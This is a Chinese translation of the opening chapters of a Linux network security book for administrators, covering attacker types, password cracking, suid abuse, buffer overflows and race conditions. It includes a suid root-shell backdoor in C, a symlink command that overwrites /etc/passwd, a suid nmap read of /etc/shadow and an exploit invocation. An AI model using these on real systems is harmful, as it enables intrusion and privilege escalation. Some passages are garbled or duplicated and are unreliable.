# Linux 网络安全

策划编辑：James Walsh

封面设计：Tyler Creative

前言 xvii

参考文献 133

参考文献 159

- 安装 340

- 实现 `LIDS` 374

# 索引 531

# 前言

# 本书适用对象

本书的主要受众是在其部分或全部网络上运行 `Linux` 的系统管理员。随着 `Linux` 在服务器市场的持续增长，此类网络变得越来越常见，但安全仍然是一个经常被忽视的问题。

在开始保护和防御你的网络之前，你需要充分了解影响 `Linux` 系统的各种威胁。第 1 章“引言：安全的需要”和第 2 章“理解问题”详细讨论了这些威胁。

书的其余部分关注预防措施，按最佳实施顺序进行描述。第 3 章“安全拓扑”、第 4 章“网络评估”和第 5 章“通过 `iptables` 进行数据包过滤”讨论了 `Linux` 网络：首先讨论拓扑和网络安全，然后转向防火墙和数据包过滤。

第 6 章“基础系统安全”涉及 `Linux` 基本安全，涵盖了一系列小但重要的主题，如密码、用户管理和物理安全。第 7 章“桌面安全”扩展了这一讨论，重点关注网络服务。

在短暂进入桌面安全领域后，我们考虑了加固 `Linux` 方法。这可能会让你感到惊讶——许多用户因其安全声誉迁移到 `Linux`。虽然这种声誉确实向往，但 `Linux` 并非完美，存在许多项目正在改进现状。这是第 8 章和第 9 章的主题，这些章节比之前的要复杂得多，但值得投入额外的时间。

第 10 章“服务安全”检查了 `Apache`、`BIND` 和 `Sendmail` 等常用服务的安全性，因为利用这些服务是攻击者获取权限的热方法。本书以第 11 章“保持安全”结束，反映了安全不是一次性的任务，而是一个持续的过程。

# 1 引言：安全的需要

本章内容

- 介绍敌人

- 究竟谁面临风险？

- 攻破后的影响

- 黑客与破解者

## 1.1 介绍敌人

在郊区某处的一个卧室里，一名青少年正坐在电脑前，看着数据在屏幕上缓慢滚动。这些数据是一个端口扫描器的输出结果，它正尝试扫描约 64,000 个 `IP`（互联网协议）地址，希望能找到一台运行着 `SSH Communications Security` 提供的 `1.2.27` 版本 `SSH`（安全外壳）服务器的机器。这看起来可能很渺茫——事实上，现在已经是凌晨了——但他并不急。

最终，他的耐心得到了回报：

```
192.168.0.1 上的有趣端口：
| PORT STATE SERVICE VERSION |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 1.2.27 (protocol 1.5) |
```

下一步是启动刚从“黑客”网站下载的 `x2` 漏洞利用。我们对该利用的工作原理一无所知（显然它“与缓冲区溢出有关”），而且我们并不在乎。唯一重要的是它是免费且有效的。

他开始输入：

```
$ /x2 -t1 192.168.0.1
```

攻击开始了（如图 1.1 所示）。如果说什么时候时候该紧张，那就是现在。到此为止，还没有发生任何非法行为：端口扫描违反了许多 `ISP`（互联网服务提供商）的用户许可政策，但在大多数国家并不是犯罪。漏洞利用则是另一回事。如果说端口扫描比路过别人的房屋并检查门是否锁好，那么运行漏洞利用就可以被看作是从开的门进入房屋。如果他获取了机器的访问权限，删除所有攻击痕迹就很简单：但如果这是一个蜜罐（一个用于诱捕攻击者的系统），或者漏洞利用不起作用了呢——当所有者回到机器时，他一定会在日志中看到攻击的证据。

图 1.1 针对 `SSH` 的活跃攻击。

随着这些想法在脑海中波动，攻击者焦虑地观察着。

在自动攻击 15 分钟后，系统终于被攻破：以 `root` 权限运行的 `SSH` 守护成为了缓冲区溢出的受害者，允许攻击者在系统上执行任意代码。对于 `x2` 工具来说，它启动了一个 `root` shell，让攻击者对系统拥有几乎完全的控制权。一旦进入系统，他就可以破坏或盗取数据，或者将其作为跳板，对其他网络发起攻击。

## 黑客神话

如果你是 `Linux` 安全世界的新手，上面的例子可能对你来说意义不大。你并不孤单；很大一部分运行漏洞利用的人对它的原理也一无所知！欢迎来到 `script kiddie`（脚本小子）的世界，在这里，知识是一项可选的附加品。

媒体，乃至黑客自己，延续了这样神话：黑客攻击是某种计算机黑魔法，由少数精英实践。事实则有些不同。

此前的场景使用了著名的“`SSH` 攻击”漏洞利用，该漏洞出现于 2001 年初，影响了大量运行 `SSH` 和 `OpenSSH` 版本的 `UNIX` 和 `Linux` 机器。无疑，该漏洞利用的作者很有本事；但由于源代码在互联网上免费提供，不可避免会有成千上万寻找新玩具的无聊青少年下载并执行该利用以好玩。这不需要了解攻击的原理——只需要一台 `Unix` 机器、一个 C 编译器、一点常识，以及对法律的无视。

先别抱有太大希望——那里有很多“真正的”黑客；而且仅仅因为一个人无所知，并不意味着他就不那么危险。

## 1.2 究竟谁面临风险？

遗憾的是，简短的答案是“每个人”。无论你管理的是机密军事研究网络，还是一个小的家庭局域网，你都是潜在的受害者。攻击者的动机可能根据你的网络性质而异，但他们仍然会攻击。

常见的回答是：“但我没有什么黑客感兴趣的东西”（因为说这种话的人往往会误用“黑客”一词）。这是误解了世界上存在的许多类型的“黑客”以及驱动他们每个人的动机。对于某些人来说是为了金钱；对于另一些人来说，仅仅是为了好玩，所以网络的用途完全无关。在“1.3 攻破后的影响”中，我们将查看世界上不同类型的攻击者。常见的动机包括：

- **金钱：** 信用卡号可能被盗取并用于在线购买商品或服务。

- **带宽：** 专线提供了大量的带宽，用于交易攻击工具和盗版软件，或发起 `DoS`（拒绝服务）攻击。

- **处理能力：** 为什么黑客要浪费自己的 `CPU` 周期呢？

- **好奇心：** 很多人只想看看会发生什么。

- **自我：** 有些人想证明自己比别人聪明。

- **政治：** 由意识形态驱动的攻击。

- **报复：** 不满的员工或寻求补偿的个人。

- **匿名性：** 在执行活动时隐藏身份。

与 `CERT` 类似，`SANS` 学院（`http://www.sans.org/`）监控并研究互联网安全，并为管理员提供许多实用的指南。`SANS` 最著名的出版物无疑是其影响联网系统的漏洞列表。该列表目前已是第四版，详细列出了 `Windows` 和 `Unix` 最常见的漏洞。

互联网上的流行说法“实现完全安全的唯一方法是将你的机器从网络上拔掉”不仅是不切实际的，是真的。对机器的物理访问也是一个巨大的威胁，特别是在一个并非人都值得信任的公共环境中。

## 1.3 攻破后的影响

成功的攻破意味着不仅仅是数据丢失的威胁。还存在停机和负面声誉的问题，以及可能的法律后果。

自然，系统管理员在获悉攻破后，首要考虑的是评估损害的范围。是否有文件被篡改过？机器上是否存储了可能被盗取或修改的敏感数据？

搜索文件系统并移除任何可疑文件可能是诱人的——毕竟，尽快让机器重新上线压力很大——但你能确定自己已经移除或重新加载了一切吗？讽刺的是，你对计算机和安全的了解越深，就越不可能对这个问题回答“是”。因此，唯一安全的做法是格式化硬盘，重新安装操作系统，并使用你保留的备份。

在 `UNIX` 和 `Linux` 机器上，`/etc/shadow` 文件是攻击者清单上的重中之重——事实上，他可能已经在自己的机器上保存了该文件的副本——只要有足够的时间，文件中的所有密码都将被破解。如果这些密码中有任何一个用于访问其他机器，则需要尽快更改它们。

此外，攻击者可能运行了键盘记录器或嗅探器，因此必须假设他知道自攻击以来在控制台上输入的每一个按键，以及流过这台机器的每一个数据包的内容。如果你曾使用这台被攻破的机器登录另一个系统的账户，那么那个远程系统现在也面临着风险。

嗅探问题则稍显微妙。像 `SSH` 或 `HTTPS` 等协议会对流量进行加密，这使得从捕获的数据包中构建出任何内容都变得极其困难；但任何使用明文协议（如 `Telnet` 或 `POP3`）的行为都是易于察觉的。在本书的后半部分，你将学习明文协议的安全替代方案，以及如何使用 `SSH` 通过加密通道建立隧道连接。

情况变得糟糕了。最初只是单台机器被攻破，现在可能意味着整个网络都被攻破，我们回到了最初的问题：你真的能确定已经删除了所有东西吗？一个后门账户（攻击者为了方便再次进入而创建的登录账户）或被攻击者修改的网络守护进程，就足以让你的网络再次崩溃。

### 停机成本

在企业局域网（`LAN`）中，停机时间必须降至最低，并且最好安排在非高峰时段；但在发生攻破的情况下，你将没有这种奢侈。考虑到可能需要重新安装每台机器并从归档中恢复数据，停机时间可能会是非常漫长的。

你本应该已经有一套应对停机问题的策略（例如冗余服务器）以及备份重要数据的策略（包括 `/etc` 目录中的大部分文件，而不仅仅是用户数据）。如果没有，现在是时候考虑这些策略了。增量备份将在本书后半部分介绍。

### 法律后果


如果你的网络存储了敏感信息（如客户详情），或者你发现你的网络被入侵者用来对他人发起攻击，那么一个全新的潜在法律问题世界将向你开启。

尽管这仍然是法律中非常新（且灰色）的领域，但它似乎归结为法学学生最喜欢的一个谜题：如果你在当地超市滑倒了香蕉皮，店主是否需要承担责任？答案是“可能吧”。如果香蕉皮还是黄色的，假设它是最近才掉在地上的。不能合理地期望店主不断检查地板上的皮屑，因此他被认为不负责任。然而，如果香蕉皮是棕色的，说明它显然已经在那里躺了一段时间了，店主疏忽了他的职责。

这个故事的关键点在于，决定你是否获胜的并不是你滑倒香蕉皮的事实，也不是你受伤的程度；而是店主是否疏于职守。同样的逻辑被应用于计算机犯罪。

实现绝对安全是一个不可能的目标（但尽管我们大多数人仍然在为此而努力）。即使是计算行业的大品牌也曾沦为攻破的受害者，通常是由于新的漏洞在他们有时间升级之前出现导致的。这并不是懒惰的表现，因为从漏洞被发现到在野外流行利用程序，时间可能只有几个小时。所以，只要你已经采取合理的尝试来保护自己并保护你的客户，你就有了坚实的辩护理由。

除了敏感信息泄露的威胁外，入侵者还极可能将你的网络作为基站，用来扫描和破解他人（这是标准做法——从他自己的机器进行扫描太容易被追踪了）。再次，除非能证明你忽略了作为安全管理员的职责，否则对你公司提起成功诉讼的机会就会降低。然而，保持警惕总比在法律意外中措手不及要好。

### 负面宣传

除了敏感信息泄露的威胁，入侵者还极可能将你的网络作为基站，用来扫描和破解他人（这是标准做法——从他自己的机器进行扫描太容易被追踪了）。再次，除非能证明你忽略了作为安全管理员的职责，否则提起成功诉讼的机会就会降低。然而，保持警惕总比在法律意外中措手不及要好。

正如前面提到的，即使是大公司也经常被误认为是黑客，这种误解会产生产生负面影响。由于这些广泛的定义，公众媒体很少使用“黑客”一词来指代那些出于

的客。在竞技圈中，我们通常使用词客指的是黑客。

“黑客”一词在媒体中被广泛使用，但在技术圈内，它被不同的方式定义。由于这些广泛的定义，我们很少使用“黑客”一词来指代那些出于的黑客。

### 黑客 (Hackers)

埃里克·雷蒙德（Eric Raymond）在《黑客入侵》中将黑客定义为：

- 1. 对系统内部运作有深入理解的人。
- 2. 乐于编程的人。
- 3. 热爱编程的人。
- 4. 在编程方面很有天赋的人。
- 5. 对某项技术充满痴迷的人，或者所谓的“Unix 系统黑客”。
- 6. 某个领域的专家或爱好者，例如天文学黑客。
- 7. 喜欢以创造性的方式绕过限制的人。

请注意，在这个定义中，没有任何地方提到犯罪或破坏性行为。事实上，被描述为“黑客”是计算机爱好者能够收到的最高荣誉之一。

### 破解者 (Crackers)

破解者是指选择将其知识用于破坏性或非法目的的黑客。有些人选择认为这个词是“犯罪黑客”（criminal hacker）的缩写。

在雷蒙德对“黑客”的定义中，他指出：

- 8. [已弃用] 一个通过窥探试图发现敏感信息的恶意干扰者。因此，密码破解者、网络破解者。这种意义上的正确术语是“破解者”（crackers）。

破解者（crackers）的鲜明特征之一是他们往往保持低调。他们偶尔会删除所有攻击证据，同时对系统进行配置，以便他们日后能够轻松且静默地再次访问。

### 脚本小子（Script Kiddies）

在金字塔的底端是脚本小子（script kiddie）——他们是知识极其有限的准破解者，尽管如此，他们仍然对网络造成巨大的损害。这个名字源于大多数脚本小子处于 16-25 岁的年龄群体，且技术知识有限，他们倾向于使用由技术水平更高的破解者所创建的利用程序（`exploits`），而且往往不理解这些程序的工作原理。

破解者追求的是狡猾和隐蔽性，而脚本小子几乎没有什么技巧可言。同伴的认可是驱动这些人的动力（推测他们认为别人会对他们下载和运行他人程序的能力留下深刻印象）。大多数脚本小子可以在 `IRC` 上找到，他们吹嘘自己“拥有”了多少台机器（系统），并用 `DoS` 攻击威胁其他用户。典型的脚本小子行为包括网站劫改、`DoS` 攻击或简单地格式化你的硬盘。

### 盗版小子（Ware d00dz）

脚本小子的一个子集——盗版小子（ware d00dz，也称为 ware kiddiez）通过入侵系统来分发受版权保护软件、电影或音乐。他们的行为与脚本小子非常相似，使用自动 `root` 工具（`autorooters`）入侵尽可能多的机器。在互联网上，盗版是一门大生意，在比任何人都先获得最后一部大片电影上可以获得巨大的赞誉。磁盘空间无其妙故的消失加之高带宽占用，是盗版小子已入侵你系统的迹象。

### 信用卡盗刷者（Carders）

信用卡盗者窃取并使用信用卡详情。有些信用卡盗者单兵作战，利用他们获取的信用卡购买 `shell` 账户、访问支付网站以及其他（他们可以与其他脚本小子交易的服务）；另一些信用卡盗者只是国际有组织犯罪链条中的一环。正如你所预期的，他们的技能水平差异很大。

## 总结

在本章中，你已经了解了安全网络的重要性，我们也理清了一些关于现有攻击者类型的术语。

下一步是考虑对抗这些威胁的行动计划，但由于有这么多工作要做，要知道从哪里开始可能是困难的。

## 引言：安全的需求 11

我们建议的保护网络安全的攻击计划如下：

- 理解问题。
- 考虑网络的物理结构。
- 实施边界防火墙以保护你的网络免受外界影响。
- 实施基本的系统安全措施。
- 锁定网络服务，使其不会为攻击者提供任何易的进入途径。
- 考虑运行 `X Windows` 的工作站的安全。
- 实施系统加固工具以修复 `Linux` 的缺陷。
- 监控系统并保持其最新状态。

这些每个问题都有专门的章节进行介绍，本书的布局紧密遵循我们列出这些点的顺序。

然而，在开始保护网络之前，你需要巩固对威胁的理解，这是第 2 章“理解问题”的主题。

## 终注

1. 我们在这里使用了“应该”；然而，例如，银行应该会被非常认真地对待安全。
2. 一份由 `FBI` 和 `CSI` 创建的关于该主题的极其有趣的报告，可访问 <http://goci.com/forms/fbi/pdf.html>。
3. 顺便提一下，自称为黑客（`hacker`）被认为是非常鲁莽的；相反，这个头是由同伴授予的称号，以示尊重。那些自描述为黑客的人往往不是。
4. <http://www.catb.org/esr/jargon/html/H/hacker.html>

## 参考文献

- [Attack Trends02] `CERT` 协调中心，“攻击趋势概述”。在线访问 <http://www.cert.org/archive/pdf/attack_trends.pdf>，2002 年。
- [Raymond03] `Raymond`, Eric S, “术语表（Jargon File）”。在线访问 <http://catb.org/~esr/jargon/>，2003年12月。
- [Symantec04] 赛门克公司新闻稿。在线访问 <http://www.symantec.com/press/2004/n040920b.html>，2004 年。

# 2 理解问题

## 本章内容

第一部分：针对 `Linux` 的攻击

- 利用程序与漏洞
- 木马与后门
- 根工具包（`Rootkits`）

- 第二部分：针对网络的攻击
- 拒绝服务 (`DoS`)
- `TCP/IP` 攻击

在开始有效地保护网络之前，你需要查看影响 `Linux` 和整个网络的威胁类型；只有在完全理解了这些威胁如何工作之后，你才能保护它们。后续章节描述了预防措施，但本章专门专注于分析问题。

本章分为两个部分：针对 `Linux` 系统的攻击，以及针对整个网络的攻击。我们的目的不是列举所有已知的 `Linux` 利用程序（因为它们在不断变化），而是探索现代 `Linux` 系统的漏洞区域。请注意我们说的是“现代”：为了简洁起见，我们忽略了一些较旧的漏洞，因为它们根本不会影响最近的（我们指的是 `2.4.x` 和 `2.6.x` 内核系列）`Linux` 版本。因此，尽管本章并非完整，

它应该向你介绍 `Linux` 管理员会遇到的大多数威胁。

这里提出的大多数问题都会影响现代系统和网络（我们标记了那些主要具有历史价值的问题），并且被全球的攻击者每天使用。评估这些攻击的严重性是很的；例如，虽然数据嗅探（监控他人的网络流量）在家庭局域网上是相对较低的威胁，但在繁忙的运营网络上，它可以很容易导致管理员的密码被发现，可能导致整个网络被攻破。尽管如此，这里提到的漏洞具有（至少）成为非常严重威胁的潜力，我们敦促你认真对待每一种。

# 第一部分：针对 Linux 的攻击

针对 `Linux`（以及泛指 `Unix`）的攻击可以分为两部分：远程利用和本地利用。尽管常识可能告诉你，这些名称与地理位置无关；本地攻击涉及已经拥有某种合法访问权限的用户并尝试提升权限，而远程攻击源于没有合法访问的用户。因此，一个在旧金山登录公司服务器的授权用户仍然在尝试 `suid` 二进制。

## 2.1 利用程序与漏洞

### 弱密码


Linux 中最简单（仍然有效）的漏洞是使用弱密码。在本节后面，我们将查看导致初始入侵的一些常见方式，包括弱密码、`suid` 二进制和缓冲区溢出。大多数应用程序使用某种形式的加密或哈希存储用户密码，但由于密码破解的风险，限制这些密码是至关重要的。没有数学公式可以将加密密码转换回原始密码。相反，程序会对用户输入的密码进行哈希处理，并将其与 `/etc/shadow` 中的用户哈希进行比较。如果两个哈希值相同，则两个明文密码必须相同，用户已登录系统。

### 问题

等等，有 98 个不同的字符可以用于形成 Linux 账户密码；对于四位密码，有超过 9000 万种组合 (`98^4`)。这看起来很多，但在在我简的 1 GHz 机器上，经过 `MD5` 哈希的四位密码可以在一小时内破解。五位密码将需要三天，而六位密码将需要大约一年。当然，这些都是攻击者的最坏情况；许多人使用小写字母作为密码，如果六位密码可以在一天内破解。这些粗略的计算也没有考虑到破解者可能拥有 10 GHz，这些数字将缩小 10 倍。请阅附录 E，“密码学”，对常用的加密和哈希算法进行更深入的。

### John The Ripper

如果你还没有尝试破解你的系统密码文件，现在是时候了，在别人尝试之前。`John The Ripper` 是一种快速且灵活的 Unix 密码破解器，适用于 `Linux`、`DOS` 和 `Windows`，并包含在附的光盘中。

安装后，进入运行目录，并（以 root 身份）使用 `unshadow` 二进制生成 `/etc/passwd` 的未脱希版本：

```bash
./unshadow /etc/passwd /etc/shadow > passwd.1
```

这是你第一次使用 John，现在坚持使用最简单的破解方法。如果标准方法没有产生很多结果，你以后可以尝试更高级的功能。

```bash
$ john passwd.1

加载了 7 个密码，带有 3 个不同的盐 (FreeBSD MD5 [32/32])

(apollo)

letmein

testtest (zeus)

猜测: 2 次用时: 0:00:00:04 4% (1) c/s: 1028 尝试: Crystal

会话中止
```

四秒钟已经很不错了；尽管承认，这些都是故意设置弱密码的测试账户。

对于更持久的密码，请使用 `-w` 选项进行基于字典的破解：

```bash
$ ./john -w:/usr/share/words/passwd.1
```

### suid 二进制文件

有时，普通用户需要访问通常只有 root 才能访问系统的某些部分以更改其密码或默认 shell。Unix 系统通过使用 `setuid` (`SUID`) 标记来实现这一点，该标记会导致可执行文件以其所有者的权限运行，而不是调用用户的权限运行。一个例子是 `XFree86` 二进制文件，它需要访问探测硬件——这通常是只授予 root 的权限。通过在 `/usr/X11R6/bin/XFree86` 上设置 `suid` 标记，普通用户就可以启动 `X`。

与 `suid` 属性密切相关的是 `sgid` (`set group id`)。原理相同，只是这次文件是以其所有组身份执行的。`sgid` 属性通常用于需要保留全局分数文件的游戏，因为无论谁在玩，游戏都必须能够向分数写入数据，但同时不应允许用户篡改分数。

可以通过 `ls` 命令检查文件的属性来发现 `suid` 和 `sgid` 文件，使用 `-l` 切换获取更详细的输出：

```bash
ls -l
```

在第一个例子中，所有者-可执行位表示该文件是 `suid`，而在第二个例子中，组-可执行位中的 `s` 标记表示该文件是 `sgid`。

如果破解者拥有了以 root 身份运行二进制文件的权限，滥用的机会就会很大。竞争条件和缓冲区溢出（后文都会讨论）都是可能的，基于意外输入或被污染的环境变量的攻击也是如此。事实上，

### 理解问题

`suid` 脚本是如此危险，以至于 `Linux` 拒绝尊重它们上的 `suid` 位。

端口扫描器 `nmap` 的许多更有用的功能都需要权限运行。由于由于原因，某些系统管理员选择对 root `nmap` 二进制文件设置 `suid`，允许非 root 用户使用这些功能。使用 `-il` 选项运行 `nmap` 可以允许它从文件中读取目标选择，但由于该进程具有 root 权限，任何文件都可以被读取（这个问题后来已得到修复）。

```bash
$ nmap -il /etc/shadow
正在从 FILE:/etc/shadow 读取目标规范
```

解析给定主机名/IP 失败

注意你不能同时使用 '/mask' 和 '[1-4,7,100]' 类型的 IP 范围

解析主机名/IP : bin:*:12177:0:99999:7:....

注意你不能同时使用 '/mask' 和 '[1-4,7,100]' 类型的 IP 范围

解析主机名/IP 失败: daemon:*:12177:0:99999:7:....

注意你不能同时使用 '/mask' 和 '[1-4,7,100]' 类型的 IP 范围

如果 `nmap` 没有设置 `suid`，那么只有用户可读的文件才能被访问。

版本 2.53、2.54BETA31 和 2.54BETA7 已知会受到此漏洞的影响，较早的版本也可能受到影响。

除了合法 `suid` 程序中的潜在滥用外，拥有 root 权限的破解者可能会对二进制文件设置 `suid` 标记作为重新获得超级权限。典型方法是重命名 `/bin/sh` 的 `suid` 副本并将其隐藏在 `/tmp` 等目录中。通过执行此二进制文件，用户将进入 rootshell，并能够执行特权命令。

最新版本的 Linux shell 通过丢弃任何 `SUID`/`SGID` 权限来修复此，但攻击者仍然可以使用较小的 C 封装程序启动 shell 来创建一个 `SUID` 后门。编译以下程序并设置 `suid` 位，会导致它在作为非特权用户执行时产生一个 rootshell：

```c
main () {

	setuid(0);

	system("/bin/sh");

}
```

### 缓冲区溢出

也许是最著名的 Unix 漏洞利用类，“粉碎栈”（俗称为 `'smash the stack`）长期以来一直被黑客和破解者视为酷、美与优雅的典范。缓冲区溢出具有某种简单的美与优雅——尽管需要对操作系统和处理器的内部工作机制有深入理解——这种魅力多年来吸引着安全社区。

本节将为你介绍缓冲区溢出的世界。这将是一项艰辛的工作，你可能在完全理解之前需要重读本节几次，但最终是值得的。

### 基础

Linux 将物理内存 (RAM) 分为 4 KB 的块，称为页 (pages)，每个页有一个唯一的编号。程序执行的第一步是将其加载内存中；内核分配一个或多个页，跟踪其使用情况。内存使用相对址：这取决于页的起始。

程序使用的内存被分为三个块：

- **Text段**: 包含和只读数据。不应修改此处的数据，任何尝试写入此处的操作都会导致段错误。
- **Data段**: 存储静态和动态数据。其大小可以改变，它是共享的，其他进程可以访问。
- **栈段**: 用于存储动态数据，例如传递给函数的。

常见的类比是盘子。想象你在厨房里工作；栈的底部在页的末尾，一个栈指针 (`ESP`) 用于指向栈的顶部。如果你喜欢，这就是后进先出 (`LIFO`)。栈的大小是动态的，内核可以在运行期间增加或减少其大小。

### 低内存

|  | 数据 | 栈 |
| :--- | :--- | :--- |

图 2.1 进程内存布局。

| 局部变量 | `FP` | `RET` | 参数 |
| :--- | :--- | :--- | :--- |

图 2.2 函数调用期间的栈。

| `buffer2` | `buffer1` | `RET` | `a` | `b` | `c` |
| :--- | :--- | :--- | :--- | :--- | :--- |
| | | | | | |

图 2.3 执行 `test` 函数时的栈。

让我们看一个例子：

```c
void test(int a, int b, int c) {

    char buffer1[5];

    char buffer2[10];

}

void main() {

    test(1,2,3);

}
```

### 溢出

在之前的例子中，为两个字符数组 `buffer1` 和 `buffer2` 分配了固定大小的存储空间，但如果你尝试向它们存储比分配更多的数据会发生什么？这里是另一个例子：

```c
void test(char *str) {

    char buffer[10];

    strcpy(buffer,str);

}
```

```c
void main() {

    char large_string = 'AAAAAAAAAAAAAAAAAAAA'; // 20 字节长

    test(large_string);

}
```


# 理解问题 21

执行此代码会导致段错误（seg fault）。要理解原因，请查看函数 `test` 被调用时堆栈的内容，如图 2.4 所示。

| buffer | FP | RET | *str |
|---|---|---|---|
| AAAAAAAAAAAA | AAAA | AAAA | |

**图 2.4** 缓冲区溢出，导致 RET 被覆盖。

缓冲区已分配了 12 字节的内存（因为 `large_string` 长度为 20 字节）。如图 2.4 所示，当 `string` 复制到缓冲区时，额外的数据会溢出——在这种情况下，它覆盖了 FP 和 RET（均为 4 字节宽）。字符 'A' 的十六进制值为 0x41，这意味着返回地址现在变成了 0x41414141。当函数结束时，进程尝试跳跃到该地址，由于其超出了范围，因此生成了段错误。

现在这是一个非常恼疼的问题——毕竟这是一种低级错误——它源于像 `strcpy` 这样的函数没有执行任何边界检查。然而，对于破解者来说，这种情况是非常有利的，因为允许他改变程序的执行流。

考虑以下程序，它将用户输入读取到数组中：

```c
void function(void) {

    char small[30];

    gets(small);

}

void main() {

    function();

}
```

由于 `gets()` 不提供边界检查，用户可以轻松地溢出缓冲区（无论是有意还是无意），导致执行跳转到进程内存的另一个区域。在某些情况下，攻击者可能会借此绕过程序的某些部分（例如在继续执行之前验证输入密码的函数），但大多数情况下，他会想要产生一个 shell。因此，下一个问题是攻击者如何强制执行其选择的命令。解决方案是优雅而简单的：将命令放入正在溢出的缓冲区中，并覆盖返回地址，使其指向缓冲区的起始位置。

## Shellcode

你放入缓冲区中以产生 shell 的命令被称为 shellcode（机器码），并且必须用汇编语言编写。典型 shellcode 的十六进制表示如下：

```
（此处省略具体十六进制数据）
```

如果你好奇，这段 shellcode 会产生一个在 TCP 端口上监听连接的 shell。

在许多情况下，我们不知道缓冲区起始点在内存中的确切位置（返回地址应该指向的地方），找到它的唯一方法是尝试所有可能的值，这可能需要数千次尝试。解决此问题的方案是在 shellcode 的开头填充 NOP 指令（无操作）。如果返回地址切换到这些 NOP 的任何一个位置，那么一切都是正常的；执行将静默地通过这些指令，直到遇到 shellcode。根据缓冲区的大小，NOP 填充可以将成功率提高 10 倍或 100 倍。

如果尝试溢出的缓冲区非常小怎么办？那么用于产生 shell 的 shellcode 空间就会变小。如果你有权访问程序的环境变量，另一种方法是：将 shellcode 放在一个环境变量内部，然后用该变量的地址溢出缓冲区。

## SSH 攻击利用

在第 1 章“引言：安全性的需求”中描述的 SSH 漏洞提供了一个有趣的例子，说明了溢出漏洞是如何意外渗透代码的。这个问题可以追溯到 1998 年，当时发现 SSH1 的设计缺陷允许攻击者向加密数据流注入数据包（CRC-32 补偿攻击）。这将允许在客户端或服务器上执行任意命令。这在当时无法在不破坏 SSH1 协议的情况下解决这个问题，因此包含了一个补丁，该补丁会在处理所有入站数据包之前对其进行检查，寻找尝试攻击的迹象。

2001 年 2 月，发现了一个非常讽刺的是，CRC-32 Compensation Attack Detector (`deattack.c`)（CRC-32 补偿攻击检测器）本身也包含一个缓冲区溢出漏洞 [Dittrich011]。尽管有这一发现，许多专家声称成功利用的可能性极小，以至于该漏洞可以忽略不计。

到同年的 10 月，该利用程序已经在野生环境中被观察到，尽管最初认为只有少数 SSH 版本受到影响，但数量稳步增长。当前版本的利用程序影响了来自不同供应商实现的 100 多个不同守护进程版本。

由于许多机器运行 `sshd`，这很快变成了一个巨大的安全问题。邮件列表和论坛充满了对该利用程序的请求，一些有进取的个人（据报道）以超过 1000 美元的价格出售它。该利用程序的魅力之一无疑在于其易用性。许多利用程序要求用户了解操作系统和版本（这通常可以通过获取标志页或 TCP 指纹识别来猜测），但使用这种攻击需要的技能很少。对于系统管理员来说的是，SSH 实现的各种供应商迅速修正了该问题并发布了带有补丁的版本。

我们只触及了“破坏栈”（smashing the stack）世界的边缘，本节的目的并不是对缓冲区溢出提供全面的分析（对于这一点，我们推荐 Aleph1 的《Smashing the Stack for Fun and Profit》，Phrack 杂志第 49 期）；相反，本节为你提供了足够的该主题知识以有效地保护自己。

## 竞态条件

我们倾向于认为程序的操作是原子的，即在一个单元内完成。但实际上，每条语句之间存在有限的时间间隔。考虑以下 Perl 脚本，它将 Bash shell 施加给用户：

```perl
open (IN, "<etc/passwd") || die!;
chomp(@lines = <IN>);
```

```perl
open (OUT, "/etc/passwd") || die!;
flock (OUT, LOCK_EX) or die "Can't lock /etc/passwd: $!";
foreach (@lines) {
    print OUT ($_s/bin/sh/\bin/bash/), "\n";
}
close OUT;
```

在第 1-3 行，打开 `/etc/passwd` 并读取到数组，删除每行末尾的 `\n`。在第 7 行重新打开 `/etc/passwd` 进行写入，`foreach` 循环遍历每一行，将 `/bin/sh` 替换为 `/bin/bash` 并打印输出。如果在程序运行时，另一个（合法）进程尝试修改 `/etc/passwd` 会怎样？`@lines` 的内容将被覆盖。

这是一个竞态条件的示例：两个或进程同时访问同一资源（通常是文件），结果取决于哪个进程先获得。这看起来像是一个理论风险——毕竟两个顺序命令之间的延迟非常小；但问题由于 Linux 内核的多任务性质而加剧了。内核的工作之一是在每个运行进程之间调度 CPU 时间，它通过分配每个 CPU 时间切片（事实上，它们被称为时间片）来实现，切片的大小取决于进程的优先级。当此时间过期后，执行切换到下一个任务。用户态程序无法控制这一点，因此执行可能会在命令序列中间暂停，例如：

```c
if (access("/tmp/tempfile", R_OK)==0) {
    fd=open("/tmp/datafile");
...
}
```

发生此类竞态条件的时间被称为漏洞窗口。

### 红帽 diskcheck 竞态条件

Red Hat PowerTools（版本 6.0–7.0）包含一个名为 `diskcheck.pl` 的程序，它每小时检查一次磁盘使用情况，如果文件系统即将充满则通知管理员。生成的电子邮件首先写入 `/tmp` 中名为 `usagealert.txt.$$` 的临时文件，其中 `$$` 代表进程的 pid。

由于攻击者可以预测出临时文件名（通过在 `diskcheck.pl` 运行时查看进程列表），他现在有可能通过符号链接覆盖一个他没有写访问权限的文件。例如：

```
ln -s /etc/passwd /tmp/usagealert.txt.22401
```

现在，当 `diskcheck.pl`（以 root 身份运行）尝试打开 `/tmp/usagealert.txt.22401` 时，它最终打开了 `/etc/passwd`，从而覆盖了进程中的用户账户详情。在管理员修复损坏之前，任何人都无法登录系统。

竞态条件可能很难触发，因为涉及到时机问题——可能需要运行数百次这种竞赛才能成功；因此，最具有利用价值的程序通常是那些运行了 `setuid` 的程序，因为破解者可以根据需要多次启动它们。

### 病毒与蠕虫

病毒和蠕虫之间通常接受的区别是：病毒需要用户干预才能传播（例如用户打开恶意邮件附件），而蠕虫是自我传播的。两者都可能包含或不包含负载（payload），但即使在没有负载的情况下，产生的巨大流量仍可能造成严重损害，蠕虫尤为如此。

Linux（以及广泛的 Unix）到目前为止是幸运的，报告的病毒或蠕虫很少。一些人将 Linux 使用的多用户模型归为原因之一，因为多用户模型使得病毒难以传播；另一些人将其归因于源代码免费提供的传统，这使得任何恶意代码都能被快速发现；而还有人说，Linux 用户占比（与 Windows 相比）相对较低，这意味着人们对开发 Linux 病毒兴趣不大。尽管这三个观点都有一定道理，但没有任何一个观点（即使结合在一起）能完全解释 Linux 中缺乏病毒或蠕虫的现象；在未来，病毒可能会成为 Linux 用户的一个严重问题。


影响 Linux 的病毒和蠕虫与影响 Windows 的病毒和蠕虫之间一个有趣的区别在于负载。你可能经历过 Windows 病毒删除文件并导致系统无法使用；但在 Linux 中，趋势似乎是向对病毒创建者某些益处的负载，例如允许机器作为分布式拒绝服务（DoS）攻击的一部分。这种情况并非总是如此，但在 Linux 下看到的大部分病毒中，这是其行为。

### 莫里斯蠕虫

